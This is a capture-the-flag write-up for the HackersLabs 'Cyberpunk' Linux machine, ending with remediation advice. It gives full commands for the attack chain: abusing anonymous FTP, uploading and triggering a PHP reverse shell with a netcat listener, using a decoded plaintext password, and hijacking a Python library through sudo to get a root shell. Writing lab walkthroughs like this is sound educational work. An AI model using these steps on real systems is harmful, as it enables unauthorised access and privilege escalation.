





# Cyberpunk - Write-up

| Field | Details |
| :--- | :--- |
| **Platform** | HackersLabs |
| **Operating System** | Linux |
| **Difficulty** | Easy |
| **IP Address** | 192.168.86.95 |
| **Date** | March 4, 2026 |

## 1. Executive Summary

The exploitation of the **Cyberpunk** machine involved identifying an insecure FTP configuration and a web application vulnerability. Initial access was achieved by leveraging Anonymous FTP login to exfiltrate sensitive files and subsequently uploading a PHP reverse shell to the web server's directory. After gaining a foothold as `www-data`, I decoded a Brainfuck encrypted string to obtain credentials for the user `arasaka`. Privilege escalation to root was performed by exploiting a Python Library Hijacking vulnerability, taking advantage of a sudo misconfiguration on a custom script.

## 2. Reconnaissance & Enumeration

### 2.1 Network Scanning

The process began with an `arp-scan` to identify the target on the local network, followed by an OS check using `whichSystem.py`, confirming the target is a Linux machine.

```bash
sudo arp-scan --localnet -g
whichSystem.py 192.168.86.95

nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 192.168.86.95 -oG allPorts
extractPorts allPorts
nmap -p21,22,80 -sCV 192.168.86.95 -oN target
```

**Key Findings:**

| PORT | SERVICE | VERSION |
|------|---------|---------|
| 21 | FTP | vsftpd 3.0.3 (Anonymous Allowed) |
| 22 | SSH | OpenSSH 9.2p1 |
| 80 | HTTP | Apache httpd 2.4.59 |

### 2.2 FTP Enumeration

The Nmap scan indicated that Anonymous FTP login was enabled. I connected to the service to explore the available files.

```bash
ftp 192.168.86.95
# User: anonymous | Password: (any)
```

Inside the FTP server, I found a `secret.txt` file and an `images` directory containing `netrunner.jpeg`.

```bash
get secret.txt
cd images
get netrunner.jpeg
```

The `secret.txt` file contained a message advising to "look at the apache" and "disable relic," hinting at the web server's relevance.



## 3. Exploitation (Foothold)

### 3.1 Web Exploitation & Reverse Shell

Cross-referencing the FTP files with the web server (Port 80), I noticed the same images and text files were accessible via the browser. Since I had write permissions over the FTP directory which mapped to the web root, I uploaded a [PHP reverse shell](https://github.com/pentestmonkey/php-reverse-shell).

```bash
wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
ftp 192.168.86.95
```
```ftp
put php-reverse-shell.php
```

I started a Netcat listener and executed the script by navigating to `http://192.168.86.95/php-reverse-shell.php`.

```bash
nc -nlvp 4444
```

### 3.2 TTY Treatment

Once the shell was established as `www-data`, I performed TTY stabilization.

```bash
script /dev/null -c bash
# Ctrl + Z
stty raw -echo; fg
reset xterm
export SHELL=bash
export TERM=xterm
```

## 4. Privilege Escalation

### 4.1 Horizontal Escalation (arasaka)

While investigating the system, I found a file in `/opt/arasaka.txt`. The content consisted of Brainfuck esoteric programming language symbols (`> < + - [ ] .`).

Using a [Brainfuck decoder](https://md5decrypt.net/en/Brainfuck-translator/), the string translated to the clear-text password: `cyberpunk2077`.



```bash
cat /etc/passwd | grep /home/
# arasaka:x:1000:1000:arasaka,,,:/home/arasaka:/bin/bash
cat /opt/arasaka.txt
su arasaka
```

### 4.2 Vertical Escalation (root via Python Library Hijacking)

Checking for sudo privileges revealed that `arasaka` could execute a Python script as root.

```bash
arasaka@Cyberpunk:~$ sudo -l
[sudo] contraseña para arasaka: 
Matching Defaults entries for arasaka on Cyberpunk:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User arasaka may run the following commands on Cyberpunk:
    (root) PASSWD: /usr/bin/python3.11 /home/arasaka/randombase64.py
```

The `randombase64.py` script contained an `import base64` statement. Since the script runs with sudo and is located in a directory where I have write permissions, I exploited Python Library Hijacking by creating a malicious `base64.py` in the same directory.

```bash
echo 'import os; os.system("/bin/bash")' > /home/arasaka/base64.py
sudo /usr/bin/python3.11 /home/arasaka/randombase64.py
```

This successfully spawned a root shell.

## 5. Flags & Proof

www-data



arasaka



Root




## 6. Remediation & Hardening

- **Disable Anonymous FTP:** Sensitive directories should not be accessible via anonymous login, especially if write permissions are enabled.
- **Secure Sudoers Configuration:** Avoid allowing users to run scripts in directories where they have write access, as this inevitably leads to hijacking or modification.
- **Python Path Security:** Ensure that Python scripts run with sudo do not include the current working directory in their `sys.path` or use absolute paths for critical imports.
- **Data Encryption:** Do not store passwords on the filesystem, even if obfuscated with esoteric languages like Brainfuck.

---

Authored by: Brutotes
[⬅️ Back to Home](../../README.md)
